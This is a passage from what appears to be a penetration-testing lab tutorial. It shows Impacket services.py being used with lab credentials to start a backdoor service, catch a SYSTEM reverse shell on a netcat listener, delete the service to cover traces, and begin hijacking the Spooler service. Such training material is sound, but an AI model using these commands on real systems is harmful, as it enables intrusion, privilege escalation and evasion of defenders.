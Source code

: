 We must start our `Netcat` listener:

```shell-session
BusySec@htb[/htb]$ nc -lnvp 9001
Listening on 0.0.0.0 9001
```

We can now start the service with `start -name <serviceName>`:

```shell-session
BusySec@htb[/htb]$ proxychains4 -q impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 start -name 'Service Backdoor' 
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Starting service Service Backdoor
```

Looking at our attack host, we have successfully established a reverse shell:

```shell-session
BusySec@htb[/htb]$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.207] from (UNKNOWN) [10.129.229.244] 62855
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Finally, we can cover up the traces and delete the service by typing `delete -name <serviceName>`:

```shell-session
BusySec@htb[/htb]$ proxychains4 -q services.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 delete -name 'Service Backdoor'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Deleting service Service Backdoor
```

Alternatively, we use `services.py` to modify existing services; for example, if we find a service authenticated as a specific user account, we can change the configuration of that service and make it execute our payload. In the following example, we can modify the `Spooler` service to execute our payload. First, let's see the current service configuration:

```shell-session
BusySec@htb[/htb]$ proxychains4 -q impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 config -name Spooler
Impacket v0.11.0 - Copyright 2023 Fortra                                                                                                                                                      
                                               
[*] Querying service config for Spooler
TYPE              : 272 -  SERVICE_WIN32_OWN_PROCESS  SERVICE_INTERACTIVE_PROCESS                                                                                                             
START_TYPE        :  4 -  DISABLED
ERROR_CONTROL     :  0 -  IGNORE
BINARY_PATH_NAME  : C:\Windows\System32\spoolsv.exe
LOAD_ORDER_GROUP  : SpoolerGroup    
TAG               : 0               
DISPLAY_NAME      : Print Spooler  
DEPENDENCIES      : RPCSS/http/
SERVICE_START_NAME: LocalSystem
```
